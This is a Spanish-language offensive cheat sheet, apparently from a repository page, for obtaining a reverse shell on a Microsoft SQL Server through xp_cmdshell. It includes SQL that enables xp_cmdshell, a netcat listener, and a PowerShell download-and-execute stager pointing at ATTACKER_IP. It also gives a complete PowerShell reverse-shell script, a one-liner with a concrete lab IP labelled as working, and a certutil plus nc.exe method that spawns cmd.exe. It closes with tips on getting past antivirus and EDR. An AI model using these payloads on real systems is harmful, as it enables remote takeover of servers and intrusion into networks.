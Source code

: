 ## Reverse shell vía xp_cmdshell (MSSQL)

### 0) (si hace falta) Habilitar xp_cmdshell
```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

### 1) Prepara tu listener (atacante)
```bash
nc -lvnp 4444
```

### 2) Método A — PowerShell “stager” (descarga y ejecuta payload)
- Sirve un archivo con tu payload (ej: rev.ps1) usando un servidor web simple en tu máquina atacante.
- Desde MSSQL con xp_cmdshell ejecutas un comando PowerShell que descargue y ejecute ese archivo.
```sql
EXEC xp_cmdshell 'powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX (New-Object Net.WebClient).DownloadString(''http://ATTACKER_IP/rev.ps1''))"';

```
Ejemplo rev.ps1:
```powershell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4444);
$stream = $client.GetStream();[byte[]]$b=0..65535|%{0};
while(($i=$stream.Read($b,0,$b.Length)) -ne 0){
  $d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);
  $s=(iex $d 2>&1 | Out-String)+"PS "+(pwd).Path+"> ";
  $stream.Write(([Text.Encoding]::ASCII).GetBytes($s),0,$s.Length);$stream.Flush()
}

```
### 3) Método B — PowerShell “one-liner” (sin archivos)
- Usa un único comando PowerShell que establezca conexión directa a tu listener.
- Ideal si no quieres subir archivos al sistema víctima.

```powershell
EXEC xp_cmdshell 'powershell -NoP -NonI -W Hidden -Command "$c=New-Object Net.Sockets.TCPClient(''ATTACKER_IP'',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$o=(iex $d 2>&1 | Out-String);$o=$o+''PS ''+(pwd).Path+''> ''; $s.Write(([Text.Encoding]::ASCII).GetBytes($o),0,$o.Length);$s.Flush()}"';

```

Ejemplo que funciona:
```powershell
EXEC xp_cmdshell 'powershell -NoP -NonI -W Hidden -Command "$c=New-Object Net.Sockets.TCPClient(''10.10.14.153'',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$o=(iex $d 2>&1 | Out-String);$o=$o+''PS ''+(pwd).Path+''> ''; $s.Write(([Text.Encoding]::ASCII).GetBytes($o),0,$o.Length);$s.Flush()}"';

```

### 4) Método C — certutil + nc.exe
- Descarga `nc.exe` en la máquina víctima con `certutil`.
- Ejecuta nc.exe con parámetros para conectarse a tu listener y lanzar cmd.exe.
```powershell
./nc.exe <ip> <port> -e cmd
```

## Notas rápidas
- Cambia la IP del atacante y el puerto según tu entorno.
- Si hay restricciones, prueba otras utilidades de Windows como `bitsadmin`, `Invoke-WebRequest` o `curl.exe`.
- Verifica la conectividad de salida (firewall) y posibles bloqueos por antivirus/EDR.
- Ejecuta `whoami` con xp_cmdshell para confirmar con qué usuario estás corriendo (lo ideal es `NT AUTHORITY\SYSTEM`).
